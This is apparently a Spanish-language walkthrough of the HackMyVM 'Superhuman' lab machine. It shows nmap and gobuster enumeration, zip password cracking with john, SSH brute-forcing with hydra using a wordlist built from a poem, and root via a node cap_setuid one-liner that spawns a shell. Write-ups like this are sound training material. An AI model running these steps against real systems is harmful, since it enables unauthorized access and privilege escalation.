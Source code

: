# Superhuman HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.38

## Enumeracion 

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.38                                              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-28 19:21 EDT
Nmap scan report for 10.0.2.38
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:FE:95:AA (Oracle VirtualBox virtual NIC)
```

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.0.2.38 -x .txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.38
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/04/28 22:12:36 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 274]
/notes-tips.txt       (Status: 200) [Size: 358]
Progress: 2538662 / 2547668 (99.65%)
===============================================================
2023/04/28 22:14:44 Finished
===============================================================
```

Hacemos un curl a la pagina y encontramos con un mensaje que esta cifrado

```
❯ curl --url "http://10.0.2.38/notes-tips.txt"
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```
Con la siguiente pagina encontramos que esta cifrado en ASCII85
https://www.dcode.fr/cipher-identifier

Y con esta pagina encontramo que el mensaje es el siguiente:
https://www.dcode.fr/ascii-85-encoding

```txt
salome doesn't want me, I'm so sad... i'm sure god is dead...
I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll desire me. I'll name it salome_and_?? I don't know.

I must not forget to save it and put a good extension because I don't have much storage
```

Basicamente escribio un poema con el nombre de ``salome_and_??`` y lo guardo en una buena extension para ahorrar espacio ya que no dispone de mucho espacio

Entonces si hablamos de extensiones para guardar cosas tenemos el ``zip | rar | 7z``

Encontramos que es .zip

```bash
❯ wget "http://10.0.2.38/salome_and_me.zip"
--2023-04-28 22:27:52--  http://10.0.2.38/salome_and_me.zip
Connecting to 10.0.2.38:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 452 [application/zip]
Saving to: ‘salome_and_me.zip’

salome_and_me.zip     100%[=====================>]     452  --.-KB/s    in 0s

2023-04-28 22:27:52 (151 MB/s) - ‘salome_and_me.zip’ saved [452/452]
```

Descubrimos el password para revelar la informacion que contiene con john y fuerza bruta

```bash
❯ zip2john salome_and_me.zip > hashZip
Created directory: /home/kali/.john
ver 2.0 efh 5455 efh 7875 salome_and_me.zip/salome_and_me.txt PKZIP Encr: TS_chk, cmplen=252, decmplen=443, crc=91CF0992 ts=393B cs=393b type=8

❯ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashZip
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2023-04-28 22:30) 25.00g/s 204800p/s 204800c/s 204800C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```bash
❯ cat salome_and_me.txt

----------------------------------------------------

	     GREAT POEM FOR SALOME

----------------------------------------------------

My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!
```

Procedo a hacer un ataque de fuerza bruta por SSH con el usuario fred pero no tiene frutos
Asi que me dispongo a leer mejor el poema y creo que puedo usar las palabras que hay ahi como wordlist

```bash
❯ cat wordlistSuperhuman.txt 
fred
lonely
scared
Salome
salome
schopenhauer
asshole
peephole
darling
lady
baby
```

```bash
❯ hydra -l fred -P wordlistSuperhuman.txt ssh://10.0.2.38 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-28 22:38:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:1/p:11), ~1 try per task
[DATA] attacking ssh://10.0.2.38:22/
[22][ssh] host: 10.0.2.38   login: fred   password: ************
```

## SSH

Nos conectamos mediante ssh

Ya dentro de la maquina si ejecutamos ls nos bota
```bash
fred@superhuman:~$ ls
lol
Connection to 10.0.2.38 closed.
```

### User Flag

Buscamos la flag
```
fred@superhuman:~$ find / -name user* 2>/dev/null
/home/fred/user.txt
fred@superhuman:~$ cat /home/fred/user.txt
************er
```

## Escalado de Privilegios

Busco formas de escalar de privilegios
Vemos las capacidades

```bash
fred@superhuman:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/node = cap_setuid+ep
```

Encontramos un codigo en python
https://gtfobins.github.io/gtfobins/node/

```bash
fred@superhuman:~$ cp $(which node) .
fred@superhuman:~$ sudo setcap cap_setuid+ep node
-bash: sudo: command not found
fred@superhuman:~$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
Y con esto somos root 
```bash
# whoami
root
# bash
root@superhuman:~#
```
Con esto buscamos la flag y la obtenemos 
```bash
root@superhuman:~# find / -name root.txt 2>/dev/null
/root/root.txt
root@superhuman:~# cat /root/root.txt
*************an
```